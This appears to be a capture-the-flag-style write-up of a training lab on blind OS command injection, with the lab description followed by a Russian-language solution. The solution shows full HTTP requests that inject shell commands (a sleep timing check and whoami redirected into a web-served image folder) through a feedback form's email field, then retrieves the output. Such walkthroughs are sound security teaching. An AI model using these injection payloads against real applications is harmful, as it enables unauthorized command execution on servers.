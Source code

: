 # Blind OS command injection with output redirection
PRACTITIONER

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:

`/var/www/images/`

The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.

To solve the lab, execute the whoami command and retrieve the output.

## Решение
Добавляю `; seep 10;` к параметру email:
```
POST /feedback/submit HTTP/2
Host: 0ab300bf04b97503817f07f0008f0067.web-security-academy.net
Cookie: session=6fasxJ29QaULAlayoPrcoHQtAXWQnw6r
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 106
Origin: https://0ab300bf04b97503817f07f0008f0067.web-security-academy.net
Referer: https://0ab300bf04b97503817f07f0008f0067.web-security-academy.net/feedback
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

csrf=jHUc6enqayosod4Rktj2siTjk4pKaWoc&name=test&email=test%40server.com; sleep 10;&subject=foo&message=bar
```
Запрос выполняется на 10 секунд дольше обычного. Хорошо, параметр email уязвим к cmdi.

Добавляю к значению параметра email следующий текст:

`; whoami > /var/www/images/x1.jpg;`
```
POST /feedback/submit HTTP/2
Host: 0ab300bf04b97503817f07f0008f0067.web-security-academy.net
Cookie: session=6fasxJ29QaULAlayoPrcoHQtAXWQnw6r
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 129
Origin: https://0ab300bf04b97503817f07f0008f0067.web-security-academy.net
Referer: https://0ab300bf04b97503817f07f0008f0067.web-security-academy.net/feedback
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

csrf=jHUc6enqayosod4Rktj2siTjk4pKaWoc&name=test&email=test%40server.com; whoami > /var/www/images/x1.jpg;&subject=foo&message=bar
```
```
┌──(tinker㉿catpants)-[~/projects]
└─$ curl https://0ab300bf04b97503817f07f0008f0067.web-security-academy.net/image?filename=x1.jpg
peter-eD0elg

```
Задание выполнено.
